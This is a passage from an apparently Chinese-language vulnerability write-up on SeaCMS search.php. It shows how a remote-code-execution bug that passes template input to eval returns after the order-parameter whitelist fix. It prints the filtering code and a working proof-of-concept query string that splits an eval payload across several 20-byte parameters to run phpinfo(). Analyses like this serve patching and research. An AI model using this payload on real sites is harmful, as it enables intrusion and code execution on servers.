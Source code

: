 ```php
$orderarr=array('id','idasc','time','timeasc','hit','hitasc','commend','commendasc','score','scoreasc');
if(!(in_array($order,$orderarr))){$order='time';}
```

这个时候官方修复的方法是将order参数设置了一个白名单，这样就无法通过order 参数注入代码， 然而，通过之前的分析我们知道，漏洞产生的问题是在于parseIf函数中的参数没有经过过滤直接拼接后用eval执行，so ,漏洞再次产生，还是在search.php文件中，但攻击payload不再order参数这里，而在前面的参数中：

```php
$searchword = RemoveXSS(stripslashes($searchword));
$searchword = addslashes(cn_substr($searchword,20));
$searchword = trim($searchword);

$jq = RemoveXSS(stripslashes($jq));
$jq = addslashes(cn_substr($jq,20));

$area = RemoveXSS(stripslashes($area));
$area = addslashes(cn_substr($area,20));

$year = RemoveXSS(stripslashes($year));
$year = addslashes(cn_substr($year,20));

$yuyan = RemoveXSS(stripslashes($yuyan));
$yuyan = addslashes(cn_substr($yuyan,20));

$letter = RemoveXSS(stripslashes($letter));
$letter = addslashes(cn_substr($letter,20));

$state = RemoveXSS(stripslashes($state));
$state = addslashes(cn_substr($state,20));

$ver = RemoveXSS(stripslashes($ver));
$ver = addslashes(cn_substr($ver,20));

$money = RemoveXSS(stripslashes($money));
$money = addslashes(cn_substr($money,20));
```

这些参数也可以通过变量覆盖的方式传入，然后这些参数还用了removeXSS,addslashes函数去过滤，而且截取了前20个字节，即每个参数只能传入20个字节长度的限制，构造的poc也是特别巧妙，来看下大佬们构造的poc

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();
```

在search.php的echoSearchPage函数中的代码大概这样:

```php
function echoSearchPage()
{
...
	$content = str_replace("{searchpage:page}",$page,$content);
	$content = str_replace("{seacms:searchword}",$searchword,$content);
	$content = str_replace("{seacms:searchnum}",$TotalResult,$content);
	$content = str_replace("{searchpage:ordername}",$order,$content);
...

	$content = str_replace("{searchpage:type}",$tid,$content);
	$content = str_replace("{searchpage:typename}",$tname ,$content);
	$content = str_replace("{searchpage:year}",$year,$content);
	$content = str_replace("{searchpage:area}",$area,$content);
	$content = str_replace("{searchpage:letter}",$letter,$content);
	$content = str_replace("{searchpage:lang}",$yuyan,$content);
	$content = str_replace("{searchpage:jq}",$jq,$content);
	if($state=='w'){$state2="完结";}elseif($state=='l'){$state2="连载中";}else{$state2="全部";}
```